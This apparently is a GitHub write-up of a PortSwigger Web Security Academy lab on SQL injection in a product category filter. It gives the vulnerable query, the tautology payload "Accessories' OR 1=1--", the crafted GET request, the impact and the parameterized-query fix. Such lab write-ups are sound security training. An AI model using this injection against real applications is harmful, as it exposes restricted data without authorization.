


# Lab 1: SQL Injection in WHERE Clause (Retrieve Hidden Data)

**Category:** SQL Injection
**Difficulty:** Apprentice
**Link:** https://portswigger.net/web-security/sql-injection

## Vulnerability
The application builds a SQL query using unsanitized user input from the 
category filter:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
## Exploitation
By injecting a payload into the category parameter, the WHERE clause 
condition can be manipulated to always evaluate true, bypassing the 
`released = 1` restriction.

**Payload used:**

Accessories' OR 1=1--
**Final request:**

GET /filter?category=Accessories'+OR+1=1--
## Result
The query becomes:
```sql
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```
The `--` comments out the rest of the query, and `OR 1=1` makes the 
condition always true, returning all products including unreleased ones.

## Impact
An attacker can bypass access restrictions to view hidden/unreleased data, 
demonstrating a classic SQL injection vulnerability allowing unauthorized 
data disclosure.

## Remediation
Use parameterized queries (prepared statements) instead of string 
concatenation when building SQL queries with user input.

## Evidence

